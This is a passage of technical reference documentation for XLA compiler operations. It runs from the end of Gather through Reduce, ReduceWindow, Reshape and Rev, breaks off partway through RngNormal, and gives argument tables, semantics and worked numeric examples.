    1.  `S`<sub>`in`</sub>[`start_index_map`[`k`]] = `S`[`k`] if `k` <
        `start_index_map.size`.

    2.  `S`<sub>`in`</sub>[`_`] = `0` otherwise.

3.  Create an index `O`<sub>`in`</sub> into `operand` by scattering the indices
    at the offset dimensions in `Out` according to the `collapsed_slice_dims`
    set. More precisely:

    1.  `O`<sub>`in`</sub>[`remapped_offset_dims`(`k`)] =
        `Out`[`offset_dims`[`k`]] if `k` < `offset_dims.size`
        (`remapped_offset_dims` is defined below).

    2.  `O`<sub>`in`</sub>[`_`] = `0` otherwise.

4.  `In` is `O`<sub>`in`</sub> + `S`<sub>`in`</sub> where + is element-wise
    addition.

`remapped_offset_dims` is a monotonic function with domain [`0`,
`offset_dims.size`) and range [`0`, `operand.rank`) \ `collapsed_slice_dims`. So
if, e.g., `offset_dims.size` is `4`, `operand.rank` is `6` and
`collapsed_slice_dims` is {`0`, `2`} then `remapped_offset_dims` is {`0`→`1`,
`1`→`3`, `2`→`4`, `3`→`5`}.

If `indices_are_sorted` is set to true then XLA can assume that `start_indices`
are sorted (in ascending `start_index_map` order) by the user. If they are not
then the semantics is implementation defined.

If `unique_indices` is set to true then XLA can assume that all element
scattered to are unique. So XLA could use non-atomic operations. If
`unique_indices` is set to true and the indices being scattered to are not
unique then the semantics is implementation defined.

### Informal Description and Examples

Informally, every index `Out` in the output array corresponds to an element `E`
in the operand array, computed as follows:

-   We use the batch dimensions in `Out` to look up a starting index from
    `start_indices`.

-   We use `start_index_map` to map the starting index (whose size may be less
    than operand.rank) to a "full" starting index into the `operand`.

-   We dynamic-slice out a slice with size `slice_sizes` using the full starting
    index.

-   We reshape the slice by collapsing the `collapsed_slice_dims` dimensions.
    Since all collapsed slice dimensions must have a bound of 1, this reshape is
    always legal.

-   We use the offset dimensions in `Out` to index into this slice to get the
    input element, `E`, corresponding to output index `Out`.

`index_vector_dim` is set to `start_indices.rank` - `1` in all of the examples
that follow. More interesting values for `index_vector_dim` do not change the
operation fundamentally, but make the visual representation more cumbersome.

To get an intuition on how all of the above fits together, let's look at an
example that gathers 5 slices of shape `[8,6]` from a `[16,11]` array.  The
position of a slice into the `[16,11]` array can be represented as an index
vector of shape `S64[2]`, so the set of 5 positions can be represented as a
`S64[5,2]` array.

The behavior of the gather operation can then be depicted as an index
transformation that takes [`G`,`O`<sub>`0`</sub>,`O`<sub>`1`</sub>], an index in
the output shape, and maps it to an element in the input array in the following
way:

<div style="width:95%; margin:auto; margin-bottom:10px; margin-top:20px;">

</div>

We first select an (`X`,`Y`) vector from the gather indices array using `G`.
The element in the output array at index
[`G`,`O`<sub>`0`</sub>,`O`<sub>`1`</sub>] is then the element in the input
array at index [`X`+`O`<sub>`0`</sub>,`Y`+`O`<sub>`1`</sub>].

`slice_sizes` is `[8,6]`, which decides the range of O<sub>`0`</sub> and
O<sub>`1`</sub>, and this in turn decides the bounds of the slice.

This gather operation acts as a batch dynamic slice with `G` as the batch
dimension.

The gather indices may be multidimensional.  For instance, a more general
version of the example above using a "gather indices" array of shape `[4,5,2]`
would translate indices like this:

<div style="width:95%; margin:auto; margin-bottom:10px; margin-top:20px;">

</div>

Again, this acts as a batch dynamic slice `G`<sub>`0`</sub> and
`G`<sub>`1`</sub> as the batch dimensions.  The slice size is still `[8,6]`.

The gather operation in XLA generalizes the informal semantics outlined above in
the following ways:

1. We can configure which dimensions in the output shape are the offset
dimensions (dimensions containing `O`<sub>`0`</sub>, `O`<sub>`1`</sub> in
the last example).  The output batch dimensions (dimensions containing
`G`<sub>`0`</sub>, `G`<sub>`1`</sub> in the last example) are defined to be
the output dimensions that are not offset dimensions.

2. The number of output offset dimensions explicitly present in the output
shape may be smaller than the input rank.  These "missing" dimensions, which
are listed explicitly as `collapsed_slice_dims`, must have a slice size of
`1`.  Since they have a slice size of `1` the only valid index for them is
`0` and eliding them does not introduce ambiguity.

3. The slice extracted from the "Gather Indices" array ((`X`, `Y`) in the last
example) may have fewer elements than the input array rank, and an explicit
mapping dictates how the index should be expanded to have the same rank as
the input.

As a final example, we use (2) and (3) to implement `tf.gather_nd`:

<div style="width:95%; margin:auto; margin-bottom:10px; margin-top:20px;">

</div>

`G`<sub>`0`</sub> and `G`<sub>`1`</sub> are used to slice out a starting index
from the gather indices array as usual, except the starting index has only one
element, `X`. Similarly, there is only one output offset index with the value
`O`<sub>`0`</sub>. However, before being used as indices into the input array,
these are expanded in accordance to "Gather Index Mapping" (`start_index_map` in
the formal description) and "Offset Mapping" (`remapped_offset_dims` in the
formal description) into [`X`,`0`] and [`0`,`O`<sub>`0`</sub>] respectively,
adding up to [`X`,`O`<sub>`0`</sub>]. In other words, the output index
[`G`<sub>`0`</sub>,`G`<sub>`1`</sub>,`O`<sub>`0`</sub>] maps to the input index
[`GatherIndices`[`G`<sub>`0`</sub>,`G`<sub>`1`</sub>,`0`],`X`] which gives us
the semantics for `tf.gather_nd`.

`slice_sizes` for this case is `[1,11]`.  Intuitively this means that every
index `X` in the gather indices array picks an entire row and the result is the
concatenation of all these rows.

## GetDimensionSize

See also
[`XlaBuilder::GetDimensionSize`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

Returns the size of the given dimension of the operand. The operand must be
array shaped.

<b> `GetDimensionSize(operand, dimension)` </b>

| Arguments   | Type    | Semantics                                           |
| ----------- | ------- | --------------------------------------------------- |
| `operand`   | `XlaOp` | n dimensional input array                           |
| `dimension` | `int64` | A value in the interval `[0, n)` that specifies the |
:             :         : dimension                                           :

## SetDimensionSize

See also
[`XlaBuilder::SetDimensionSize`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

Sets the dynamic size of XlaOp's given dimension. The operand must be
array shaped.

<b> `SetDimensionSize(operand, size, dimension)` </b>

| Arguments   | Type    | Semantics                                           |
| ----------- | ------- | --------------------------------------------------- |
| `operand`   | `XlaOp` | n dimensional input array.                          |
| `size`      | `XlaOp` | int32 representing the runtime dynamic size.        |
| `dimension` | `int64` | A value in the interval `[0, n)` that specifies the |
:             :         : dimension.                                          :

Pass through the operand as result, with dynamic dimension tracked by the
compiler.

Padded values will be ignored by downstream reduction ops.

```
let v: f32[10] = f32[10]{1, 2, 3, 4, 5, 6, 7, 8, 9, 10};
let five: s32 = 5;
let six: s32 = 6;

// Setting dynamic dimension size doesn't change the upper bound of the static
// shape.
let padded_v_five: f32[10] = set_dimension_size(v, five, /*dimension=*/0);
let padded_v_six: f32[10] = set_dimension_size(v, six, /*dimension=*/0);

// sum == 1 + 2 + 3 + 4 + 5
let sum:f32[] = reduce_sum(padded_v_five);
// product == 1 * 2 * 3 * 4 * 5
let product:f32[] = reduce_product(padded_v_five);

// Changing padding size will yield different result.
// sum == 1 + 2 + 3 + 4 + 5 + 6
let sum':f32[] = reduce_sum(padded_v_six);
```

## GetTupleElement

See also
[`XlaBuilder::GetTupleElement`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

Indexes into a tuple with a compile-time-constant value.

The value must be a compile-time-constant so that shape inference can determine
the type of the resulting value.

This is analogous to `std::get<int N>(t)` in C++. Conceptually:

```
let v: f32[10] = f32[10]{0, 1, 2, 3, 4, 5, 6, 7, 8, 9};
let s: s32 = 5;
let t: (f32[10], s32) = tuple(v, s);
let element_1: s32 = gettupleelement(t, 1);  // Inferred shape matches s32.
```

See also `tf.tuple`.

## Infeed

See also
[`XlaBuilder::Infeed`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

<b> `Infeed(shape)` </b>

| Argument | Type    | Semantics                                             |
| -------- | ------- | ----------------------------------------------------- |
| `shape`  | `Shape` | Shape of the data read from the Infeed interface. The |
:          :         : layout field of the shape must be set to match the    :
:          :         : layout of the data sent to the device; otherwise its  :
:          :         : behavior is undefined.                                :

Reads a single data item from the implicit Infeed streaming interface of the
device, interpreting the data as the given shape and its layout, and returns a
`XlaOp` of the data. Multiple Infeed operations are allowed in a
computation, but there must be a total order among the Infeed operations. For
example, two Infeeds in the code below have a total order since there is a
dependency between the while loops.

```
result1 = while (condition, init = init_value) {
  Infeed(shape)
}

result2 = while (condition, init = result1) {
  Infeed(shape)
}
```

Nested tuple shapes are not supported. For an empty tuple shape, the Infeed
operation is effectively a no-op and proceeds without reading any data from the
Infeed of the device.

> Note: We plan to allow multiple Infeed operations without a total order, in
> which case the compiler will provide information about how the Infeed
> operations are serialized in the compiled program.

## Iota

See also
[`XlaBuilder::Iota`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

<b> `Iota(shape, iota_dimension)` </b>

Builds a constant literal on device rather than a potentially large host
transfer. Creates an array that has specified shape and holds values starting at
zero and incrementing by one along the specified dimension. For floating-point
types, the produced array is equivalent to `ConvertElementType(Iota(...))` where
the `Iota` is of integral type and the conversion is to the floating-point type.

Arguments        | Type    | Semantics
---------------- | ------- | --------------------------------------
`shape`          | `Shape` | Shape of the array created by `Iota()`
`iota_dimension` | `int64` | The dimension to increment along.

For example, `Iota(s32[4, 8], 0)` returns

```
  [[0, 0, 0, 0, 0, 0, 0, 0 ],
   [1, 1, 1, 1, 1, 1, 1, 1 ],
   [2, 2, 2, 2, 2, 2, 2, 2 ],
   [3, 3, 3, 3, 3, 3, 3, 3 ]]
```

`Iota(s32[4, 8], 1)` returns

```
  [[0, 1, 2, 3, 4, 5, 6, 7 ],
   [0, 1, 2, 3, 4, 5, 6, 7 ],
   [0, 1, 2, 3, 4, 5, 6, 7 ],
   [0, 1, 2, 3, 4, 5, 6, 7 ]]
```

## Map

See also
[`XlaBuilder::Map`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

<b> `Map(operands..., computation)` </b>

| Arguments         | Type                   | Semantics                      |
| ----------------- | ---------------------- | ------------------------------ |
| `operands`        | sequence of N `XlaOp`s | N arrays of types T_0..T_{N-1} |
| `computation`     | `XlaComputation`       | computation of type `T_0, T_1, |
:                   :                        : ..., T_{N + M -1} -> S` with N :
:                   :                        : parameters of type T and M of  :
:                   :                        : arbitrary type                 :
| `dimensions`      | `int64` array          | array of map dimensions        |

Applies a scalar function over the given `operands` arrays, producing an array
of the same dimensions where each element is the result of the mapped function
applied to the corresponding elements in the input arrays.

The mapped function is an arbitrary computation with the restriction that it has
N inputs of scalar type `T` and a single output with type `S`. The output has
the same dimensions as the operands except that the element type T is replaced
with S.

For example: `Map(op1, op2, op3, computation, par1)` maps `elem_out <-
computation(elem1, elem2, elem3, par1)` at each (multi-dimensional) index in the
input arrays to produce the output array.

## Pad

See also
[`XlaBuilder::Pad`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

<b> `Pad(operand, padding_value, padding_config)` </b>

| Arguments        | Type            | Semantics                               |
| ---------------- | --------------- | --------------------------------------- |
| `operand`        | `XlaOp`         | array of type `T`                       |
| `padding_value`  | `XlaOp`         | scalar of type `T` to fill in the added |
:                  :                 : padding                                 :
| `padding_config` | `PaddingConfig` | padding amount on both edges (low,      |
:                  :                 : high) and between the elements of each  :
:                  :                 : dimension                               :

Expands the given `operand` array by padding around the array as well as between
the elements of the array with the given `padding_value`. `padding_config`
specifies the amount of edge padding and the interior padding for each
dimension.

`PaddingConfig` is a repeated field of `PaddingConfigDimension`, which contains
three fields for each dimension: `edge_padding_low`, `edge_padding_high`, and
`interior_padding`.

`edge_padding_low` and `edge_padding_high` specify the amount of padding added
at the low-end (next to index 0) and the high-end (next to the highest index) of
each dimension respectively. The amount of edge padding can be negative -- the
absolute value of negative padding indicates the number of elements to remove
from the specified dimension.

`interior_padding` specifies the amount of padding added between any two
elements in each dimension; it may not be negative.  Interior padding occurs
logically before edge padding, so in the case of negative edge padding, elements
are removed from the interior-padded operand.

This operation is a no-op if the edge padding pairs are all (0, 0) and the
interior padding values are all 0. The figure below shows examples of different
`edge_padding` and `interior_padding` values for a two-dimensional array.

<div style="width:95%; margin:auto; margin-bottom:10px; margin-top:20px;">
  
</div>

## Recv

See also
[`XlaBuilder::Recv`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

<b> `Recv(shape, channel_handle)` </b>

| Arguments        | Type            | Semantics                            |
| ---------------- | --------------- | ------------------------------------ |
| `shape`          | `Shape`         | shape of the data to receive         |
| `channel_handle` | `ChannelHandle` | unique identifier for each send/recv pair |

Receives data of the given shape from a `Send` instruction in another
computation that shares the same channel handle. Returns a
XlaOp for the received data.

The client API of `Recv` operation represents synchronous communication.
However, the instruction is internally decomposed into 2 HLO instructions
(`Recv` and `RecvDone`) to enable asynchronous data transfers. See also
[`HloInstruction::CreateRecv` and `HloInstruction::CreateRecvDone`](https://www.tensorflow.org/code/tensorflow/compiler/xla/service/hlo_instruction.h).

<b>`Recv(const Shape& shape, int64 channel_id)`</b>

Allocates resources required to receive data from a `Send` instruction with the
same channel_id. Returns a context for the allocated resources, which is used
by a following `RecvDone` instruction to wait for the completion of the data
transfer. The context is a tuple of {receive buffer (shape), request identifier
(U32)} and it can only be used by a `RecvDone` instruction.

<b> `RecvDone(HloInstruction context)` </b>

Given a context created by a `Recv` instruction, waits for the data transfer to
complete and returns the received data.

## Reduce

See also
[`XlaBuilder::Reduce`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

Applies a reduction function to one or more arrays in parallel.

<b> `Reduce(operands..., init_values..., computation, dimensions)` </b>

| Arguments     | Type                  | Semantics                        |
| ------------- | --------------------- | -------------------------------- |
| `operands`    | Sequence of N `XlaOp` | N arrays of types `T_0, ...,     |
:               :                       : T_{N-1}`.                        :
| `init_values` | Sequence of N `XlaOp` | N scalars of types `T_0, ...,    |
:               :                       : T_{N-1}`.                        :
| `computation` | `XlaComputation`      | computation of type `T_0, ...,   |
:               :                       : T_{N-1}, T_0, ..., T_{N-1} ->`   :
:               :                       : `Collate(T_0, ..., T_{N-1})`.    :
| `dimensions`  | `int64` array         | unordered array of dimensions to |
:               :                       : reduce.                          :

Where:

*   N is required to be greater or equal to 1.
*   All input arrays must have the same dimensions.
*   If `N = 1`, `Collate(T)` is `T`.
*   If `N > 1`, `Collate(T_0, ..., T_{N-1})` is a tuple of `N` elements of type
    `T`.

The output of the op is `Collate(Q_0, ..., Q_N)` where `Q_i` is an array of type
`T_i`, the dimensions of which are described below.

This operation reduces one or more dimensions of each input array into scalars.
The rank of each returned array is `rank(operand) - len(dimensions)`. The
initial value used for every reduction is `init_value`, and it may be inserted
anywhere during computation by the back-end. It is required that `init_value` is
an identity of the reduction function (for example, `0` for addition) or
undefined behavior will occur. The applied `computation` is always passed the
`init_value` on the left-hand side.

Different backends are allowed to reassociate the reduction computation.  This
can lead to numerical differences, as some reduction functions like addition are
not associative for floats.
However, if the range of the data is limited, floating-point addition is close
enough to being associative for most practical uses.

As an example, when reducing across one dimension in a single 1D array with
values `[10, 11, 12, 13]`, with reduction function `f` (this is `computation`)
then that could be computed as

`f(10, f(11, f(12, f(init_value, 13)))`

but there are also many other possibilities, e.g.

`f(init_value, f(f(10, f(init_value, 11)), f(f(init_value, 12), f(init_value, 13))))`

The following is a rough pseudo-code example of how reduction could be
implemented, using summation as the reduction computation with an initial value
of 0.

```python
result_shape <- remove all dims in dimensions from operand_shape

# Iterate over all elements in result_shape. The number of r's here is equal
# to the rank of the result
for r0 in range(result_shape[0]), r1 in range(result_shape[1]), ...:
  # Initialize this result element
  result[r0, r1...] <- 0

  # Iterate over all the reduction dimensions
  for d0 in range(dimensions[0]), d1 in range(dimensions[1]), ...:
    # Increment the result element with the value of the operand's element.
    # The index of the operand's element is constructed from all ri's and di's
    # in the right order (by construction ri's and di's together index over the
    # whole operand shape).
    result[r0, r1...] += operand[ri... di]
```

Here's an example of reducing a 2D array (matrix). The shape has rank 2,
dimension 0 of size 2 and dimension 1 of size 3:

<div style="width:95%; margin:auto; margin-bottom:10px; margin-top:20px;">
  
</div>

Results of reducing dimensions 0 or 1 with an "add" function:

<div style="width:95%; margin:auto; margin-bottom:10px; margin-top:20px;">
  
</div>

Note that both reduction results are 1D arrays. The diagram shows one as column
and another as row just for visual convenience.

For a more complex example, here is a 3D array. Its rank is 3, dimension 0 of
size 4, dimension 1 of size 2 and dimension 2 of size 3. For simplicity, the
values 1 to 6 are replicated across dimension 0.

<div style="width:95%; margin:auto; margin-bottom:10px; margin-top:20px;">
  
</div>

Similarly to the 2D example, we can reduce just one dimension. If we reduce
dimension 0, for example, we get a rank-2 array where all values across
dimension 0 were folded into a scalar:

```text
|  4   8  12 |
| 16  20  24 |
```

If we reduce dimension 2, we also get a rank-2 array where all values across
dimension 2 were folded into a scalar:

```text
| 6  15 |
| 6  15 |
| 6  15 |
| 6  15 |
```

Note that the relative order between the remaining dimensions in the input is
preserved in the output, but some dimensions may get assigned new numbers (since
the rank changes).

We can also reduce multiple dimensions. Add-reducing dimensions 0 and 1 produces
the 1D array `[20, 28, 36]`.

Reducing the 3D array over all its dimensions produces the scalar `84`.

### Variadic Reduce

When `N > 1`, reduce function application is slightly more complex, as it is
applied simultaneously to all inputs. The operands are supplied to the
computation in the following order:

*   Running reduced value for the first operand
*   ...
*   Running reduced value for the N'th operand
*   Input value for the first operand
*   ...
*   Input value for the N'th operand

For example, consider the following reduction function, which can be used to
compute the max and the argmax of a 1-D array in parallel:

```python
f: (Float, Int, Float, Int) -> Float, Int
f(max, argmax, value, index):
  if value >= max:
    return (value, index)
  else:
    return (max, argmax)
```

For 1-D Input arrays `V = Float[N], K = Int[N]`, and init values
`I_V = Float, I_K =  Int`, the result `f_(N-1)` of reducing across the only
input dimension is equivalent to the following recursive application:

```
f_0 = f(I_V, I_K, V_0, K_0)
f_1 = f(f_0.first, f_0.second, V_1, K_1)
...
f_(N-1) = f(f_(N-2).first, f_(N-2).second, V_(N-1), K_(N-1))
```

Applying this reduction to an array of values, and an array of sequential
indices (i.e. iota), will co-iterate over the arrays, and return a tuple
containing the maximal value and the matching index.

## ReducePrecision

See also
[`XlaBuilder::ReducePrecision`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

Models the effect of converting floating-point values to a lower-precision
format (such as IEEE-FP16) and back to the original format.  The number of
exponent and mantissa bits in the lower-precision format can be specified
arbitrarily, although all bit sizes may not be supported on all hardware
implementations.

<b> `ReducePrecision(operand, mantissa_bits, exponent_bits)` </b>

Arguments       | Type    | Semantics
--------------- | ------- | -------------------------------------------------
`operand`       | `XlaOp` | array of floating-point type `T`.
`exponent_bits` | `int32` | number of exponent bits in lower-precision format
`mantissa_bits` | `int32` | number of mantissa bits in lower-precision format

The result is an array of type `T`.  The input values are rounded to the nearest
value representable with the given number of mantissa bits (using "ties to even"
semantics), and any values that exceed the range specified by the number of
exponent bits are clamped to positive or negative infinity.  `NaN` values are
retained, although they may be converted to canonical `NaN` values.

The lower-precision format must have at least one exponent bit (in order to
distinguish a zero value from an infinity, since both have a zero mantissa), and
must have a non-negative number of mantissa bits.  The number of exponent or
mantissa bits may exceed the corresponding value for type `T`; the corresponding
portion of the conversion is then simply a no-op.

## ReduceScatter

See also
[`XlaBuilder::ReduceScatter`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

ReduceScatter is a collective operation that effectively does an AllReduce and
then scatters the result by splitting it into `shard_count` blocks along the
`scatter_dimension` and replica `i` in the replica group receives the `ith`
shard.

<b> `ReduceScatter(operand, computation, scatter_dim, shard_count,
replica_group_ids, channel_id)` </b>

| Arguments           | Type                 | Semantics                     |
| ------------------- | -------------------- | ----------------------------- |
| `operand`           | `XlaOp`              | Array or a non-empty tuple of |
:                     :                      : arrays to reduce across       :
:                     :                      : replicas.                     :
| `computation`       | `XlaComputation`     | Reduction computation         |
| `scatter_dimension` | `int64`              | Dimension to scatter.         |
| `shard_count`       | `int64`              | Number of blocks to split     |
:                     :                      : `scatter_dimension`           :
| `replica_groups`    | vector of vectors of | Groups between which the      |
:                     : `int64`              : reductions are performed      :
| `channel_id`        | optional `int64`     | Optional channel ID for       |
:                     :                      : cross-module communication    :

-   When `operand` is a tuple of arrays, the reduce-scatter is performed on each
    element of the tuple.
-   `replica_groups` is a list of replica groups between which the reduction is
    performed (replica id for the current replica can be retrieved using
    [`ReplicaId`](#replicaid)). The order of replicas in each group determines
    the order in which the all-reduce result will be scattered. `replica_groups`
    must either be empty (in which case all replicas belong to a single group),
    or contain the same number of elements as the number of replicas. When there
    are more than one replica groups, they all must be of the same size. For
    example, `replica_groups = {0, 2}, {1, 3}` performs reduction between the
    replicas `0` and `2`, and `1` and `3` and then scatters the result.
-   `shard_count` is the size of each replica group. We need this in cases where
    `replica_groups` are empty. If `replica_groups` is not empty, `shard_count`
    must be equal to the size of each replica group.
-   `channel_id` is used for cross-module communication: only `reduce-scatter`
    operations with the same `channel_id` can communicate with each other.

The output shape is the input shape with the `scatter_dimension` made
`shard_count` times smaller. For example, if there are two replicas and the
operand has the value `[1.0, 2.25]` and `[3.0, 5.25]` respectively on the two
replicas, then the output value from this op where `scatter_dim` is `0` will be
`[4.0]` for the first replica and `[7.5]` for the second replica.

## ReduceWindow

See also
[`XlaBuilder::ReduceWindow`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

Applies a reduction function to all elements in each window of a sequence of N
multi-dimensional arrays, producing a single or a tuple of N multi-dimensional
arrays as output. Each output array has the same number of elements as the
number of valid positions of the window. A pooling layer can be expressed as a
`ReduceWindow`. Similar to [`Reduce`](#reduce), the applied `computation` is
always passed the `init_values` on the left-hand side.

<b> `ReduceWindow(operands..., init_values..., computation, window_dimensions,
window_strides, padding)` </b>

| Arguments           | Type                | Semantics                        |
| ------------------- | ------------------- | -------------------------------- |
| `operands`          | `N XlaOps`          | A sequence of N                  |
:                     :                     : multi-dimensional arrays of      :
:                     :                     : types `T_0,..., T_{N-1}`, each   :
:                     :                     : representing the base area on    :
:                     :                     : which the window is placed.      :
| `init_values`       | `N XlaOps`          | The N starting values for the    |
:                     :                     : reduction, one for each of the N :
:                     :                     : operands. See [Reduce](#reduce)  :
:                     :                     : for details.                     :
| `computation`       | `XlaComputation`    | Reduction function of type `T_0, |
:                     :                     : ..., T_{N-1}, T_0, ..., T_{N-1}  :
:                     :                     : -> Collate(T_0, ..., T_{N-1})`,  :
:                     :                     : to apply to elements in each     :
:                     :                     : window of all the input          :
:                     :                     : operands.                        :
| `window_dimensions` | `ArraySlice<int64>` | array of integers for window     |
:                     :                     : dimension values                 :
| `window_strides`    | `ArraySlice<int64>` | array of integers for window     |
:                     :                     : stride values                    :
| `base_dilations`    | `ArraySlice<int64>` | array of integers for base       |
:                     :                     : dilation values                  :
| `window_dilations`  | `ArraySlice<int64>` | array of integers for window     |
:                     :                     : dilation values                  :
| `padding`           | `Padding`           | padding type for window          |
:                     :                     : (Padding\:\:kSame, which pads so :
:                     :                     : as to have the same output shape :
:                     :                     : as input if the stride is 1, or  :
:                     :                     : Padding\:\:kValid, which uses no :
:                     :                     : padding and "stops" the window   :
:                     :                     : once it no longer fits)          :

Where:

*   N is required to be greater or equal to 1.
*   All input arrays must have the same dimensions.
*   If `N = 1`, `Collate(T)` is `T`.
*   If `N > 1`, `Collate(T_0, ..., T_{N-1})` is a tuple of `N` elements of type
    `(T0,...T{N-1})`.

Below code and figure shows an example of using `ReduceWindow`. Input is a
matrix of size [4x6] and both window_dimensions and window_stride_dimensions are
[2x3].

```
// Create a computation for the reduction (maximum).
XlaComputation max;
{
  XlaBuilder builder(client_, "max");
  auto y = builder.Parameter(0, ShapeUtil::MakeShape(F32, {}), "y");
  auto x = builder.Parameter(1, ShapeUtil::MakeShape(F32, {}), "x");
  builder.Max(y, x);
  max = builder.Build().ConsumeValueOrDie();
}

// Create a ReduceWindow computation with the max reduction computation.
XlaBuilder builder(client_, "reduce_window_2x3");
auto shape = ShapeUtil::MakeShape(F32, {4, 6});
auto input = builder.Parameter(0, shape, "input");
builder.ReduceWindow(
    input,
    /*init_val=*/builder.ConstantLiteral(LiteralUtil::MinValue(F32)),
    *max,
    /*window_dimensions=*/{2, 3},
    /*window_stride_dimensions=*/{2, 3},
    Padding::kValid);
```

<div style="width:95%; margin:auto; margin-bottom:10px; margin-top:20px;">
  
</div>

Stride of 1 in a dimension specifies that the position of a window in the
dimension is 1 element away from its adjacent window. In order to specify that
no windows overlap with each other, window_stride_dimensions should be equal to
window_dimensions. The figure below illustrates the use of two different stride
values. Padding is applied to each dimension of the input and the calculations
are the same as though the input came in with the dimensions it has after
padding.

<div style="width:95%; margin:auto; margin-bottom:10px; margin-top:20px;">
  
</div>

For a non-trivial padding example, consider computing reduce-window minimum
(initial value is `MAX_FLOAT`) with dimension `3` and stride `2` over the input
array `[10000, 1000, 100, 10, 1]`. Padding `kValid` computes minimums over two
_valid_ windows: `[10000, 1000, 100]` and `[100, 10, 1]`, resulting in the
output `[100, 1]`. Padding `kSame` first pads the array so that the shape after
the reduce-window would be the _same_ as input for stride one by adding initial
elements on both sides, getting `[MAX_VALUE, 10000, 1000, 100, 10, 1,
MAX_VALUE]`. Running reduce-window over the padded array operates on three
windows `[MAX_VALUE, 10000, 1000]`, `[1000, 100, 10]`, `[10, 1, MAX_VALUE]`, and
yields `[1000, 10, 1]`.

The evaluation order of the reduction function is arbitrary and may be
non-deterministic. Therefore, the reduction function should not be overly
sensitive to reassociation. See the discussion about associativity in the
context of [`Reduce`](#reduce) for more details.

## ReplicaId

See also
[`XlaBuilder::ReplicaId`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

Returns the unique ID (U32 scalar) of the replica.

<b> `ReplicaId()` </b>

The unique ID of each replica is an unsigned integer in the interval `[0, N)`,
where `N` is the number of replicas. Since all the replicas are running the same
program, a `ReplicaId()` call in the program will return a different value on
each replica.

## Reshape

See also
[`XlaBuilder::Reshape`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h)
and the [`Collapse`](#collapse) operation.

Reshapes the dimensions of an array into a new configuration.

<b> `Reshape(operand, new_sizes)` </b>
<b> `Reshape(operand, dimensions, new_sizes)` </b>

Arguments    | Type           | Semantics
------------ | -------------- | ---------------------------------------
`operand`    | `XlaOp`        | array of type T
`dimensions` | `int64` vector | order in which dimensions are collapsed
`new_sizes`  | `int64` vector | vector of sizes of new dimensions

Conceptually, reshape first flattens an array into a one-dimensional vector of
data values, and then refines this vector into a new shape. The input arguments
are an arbitrary array of type T, a compile-time-constant vector of dimension
indices, and a compile-time-constant vector of dimension sizes for the result.
The values in the `dimension` vector, if given, must be a permutation of all of
T's dimensions; the default if not given is `{0, ..., rank - 1}`. The order of
the dimensions in `dimensions` is from slowest-varying dimension (most major) to
fastest-varying dimension (most minor) in the loop nest which collapses the
input array into a single dimension. The `new_sizes` vector determines the size
of the output array. The value at index 0 in `new_sizes` is the size of
dimension 0, the value at index 1 is the size of dimension 1, and so on. The
product of the `new_size` dimensions must equal the product of the operand's
dimension sizes. When refining the collapsed array into the multidimensional
array defined by `new_sizes`, the dimensions in `new_sizes` are ordered from
slowest varying (most major) and to fastest varying (most minor).

For example, let v be an array of 24 elements:

```
let v = f32[4x2x3] {{{10, 11, 12}, {15, 16, 17}},
                    {{20, 21, 22}, {25, 26, 27}},
                    {{30, 31, 32}, {35, 36, 37}},
                    {{40, 41, 42}, {45, 46, 47}}};

In-order collapse:
let v012_24 = Reshape(v, {0,1,2}, {24});
then v012_24 == f32[24] {10, 11, 12, 15, 16, 17, 20, 21, 22, 25, 26, 27,
                         30, 31, 32, 35, 36, 37, 40, 41, 42, 45, 46, 47};

let v012_83 = Reshape(v, {0,1,2}, {8,3});
then v012_83 == f32[8x3] {{10, 11, 12}, {15, 16, 17},
                          {20, 21, 22}, {25, 26, 27},
                          {30, 31, 32}, {35, 36, 37},
                          {40, 41, 42}, {45, 46, 47}};

Out-of-order collapse:
let v021_24 = Reshape(v, {1,2,0}, {24});
then v012_24 == f32[24]  {10, 20, 30, 40, 11, 21, 31, 41, 12, 22, 32, 42,
                          15, 25, 35, 45, 16, 26, 36, 46, 17, 27, 37, 47};

let v021_83 = Reshape(v, {1,2,0}, {8,3});
then v021_83 == f32[8x3] {{10, 20, 30}, {40, 11, 21},
                          {31, 41, 12}, {22, 32, 42},
                          {15, 25, 35}, {45, 16, 26},
                          {36, 46, 17}, {27, 37, 47}};


let v021_262 = Reshape(v, {1,2,0}, {2,6,2});
then v021_262 == f32[2x6x2] {{{10, 20}, {30, 40},
                              {11, 21}, {31, 41},
                              {12, 22}, {32, 42}},
                             {{15, 25}, {35, 45},
                              {16, 26}, {36, 46},
                              {17, 27}, {37, 47}}};
```

As a special case, reshape can transform a single-element array to a scalar and
vice versa. For example,

```
Reshape(f32[1x1] {{5}}, {0,1}, {}) == 5;
Reshape(5, {}, {1,1}) == f32[1x1] {{5}};
```

## Rev (reverse)

See also
[`XlaBuilder::Rev`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

<b>`Rev(operand, dimensions)`</b>

Arguments    | Type                | Semantics
------------ | ------------------- | ---------------------
`operand`    | `XlaOp`             | array of type T
`dimensions` | `ArraySlice<int64>` | dimensions to reverse

Reverses the order of elements in the `operand` array along the specified
`dimensions`, generating an output array of the same shape. Each element of the
operand array at a multidimensional index is stored into the output array at a
transformed index. The multidimensional index is transformed by reversing the
index in each dimension to be reversed (i.e., if a dimension of size N is one of
the reversing dimensions, its index i is transformed into N - 1 - i).

One use for the `Rev` operation is to reverse the convolution weight array along
the two window dimensions during the gradient computation in neural networks.

## RngNormal

See also
[`XlaBuilder::RngNormal`](https://www.tensorflow.org/code/tensorflow/compiler/xla/client/xla_builder.h).

Constructs an output of a given shape with random numbers generated following
the $$N(\mu, \sigma)$$ normal distribution. The parameters $$\mu$$ and
$$\sigma$$, and output shape have to have a floating point elemental type. The
